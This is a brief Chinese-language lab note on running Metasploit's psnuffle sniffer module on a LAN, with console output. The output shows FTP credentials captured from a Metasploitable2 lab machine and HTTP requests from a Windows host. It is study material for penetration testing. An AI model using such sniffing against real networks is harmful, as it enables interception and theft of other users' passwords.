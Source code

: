 # psnuffle

psnuffle和dsniff一样是一个网络嗅探工具，用于监听局域网内大多数协议（FTP, Telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, PPTP MS-CHAP, NFS, VRRP, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Meeting Maker, Citrix ICA, Symantec pcAnywhere, NAI Sniffer, Microsoft SMB, Oracle SQL*Net, Sybase and Microsoft SQL;），并获取相对应的密码。

使用msf中的psnuffle无需设置相关参数

```shell
msf5 auxiliary(sniffer/psnuffle) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(sniffer/psnuffle) > 
[*] Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
[*] Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
[*] Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
[*] Loaded protocol SMB from /usr/share/metasploit-framework/data/exploits/psnuffle/smb.rb...
[*] Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
[*] Sniffing traffic.....

```

启动模块后，当局域网内的用户使用ftp协议，snuffle会将用户账号和密码打印在后台。本台主机使用IP 192.168.80.200，metaspoiltable2 IP 192.16.80.201，win 192.168.80.129

```
[*] Successful FTP Login: 192.168.80.129:49166-192.168.80.201:21 >> anonymous / User@
[*] HTTP GET: 192.168.80.129:49168-112.13.107.244:80 http://ocsp.dcocsp.cn/MFEwTzBNMEswSTAJBgUrDgMCGgUABBTHv1Dj%2BciPJEWH5JNtwL5Y07mRqwQUxBF%2BiECGwkG%2FZfMa4bRTQKOr7H0CEAfhONK02bo2E4EUVAFIy7I%3D
[*] HTTP GET: 192.168.80.129:49168-112.13.107.244:80 http://ocsp.dcocsp.cn/MFEwTzBNMEswSTAJBgUrDgMCGgUABBTHv1Dj%2BciPJEWH5JNtwL5Y07mRqwQUxBF%2BiECGwkG%2FZfMa4bRTQKOr7H0CEAeIUfSHtbWGwEA2chL%2FIw0%3D
[!] *** auxiliary/sniffer/psnuffle is still calling the deprecated report_auth_info method! This needs to be updated!
[!] *** For detailed information about LoginScanners and the Credentials objects see:
[!]      https://github.com/rapid7/metasploit-framework/wiki/Creating-Metasploit-Framework-LoginScanners
[!]      https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-HTTP-LoginScanner-Module
[!] *** For examples of modules converted to just report credentials without report_auth_info, see:
[!]      https://github.com/rapid7/metasploit-framework/pull/5376
[!]      https://github.com/rapid7/metasploit-framework/pull/5377
[*] Successful FTP Login: 192.168.80.129:49170-192.168.80.201:21 >> msfadmin / msfadmin
```

> 通过ctrl+c方式退出当前模块，snuffle不会退出
>
> 具体查看jobs
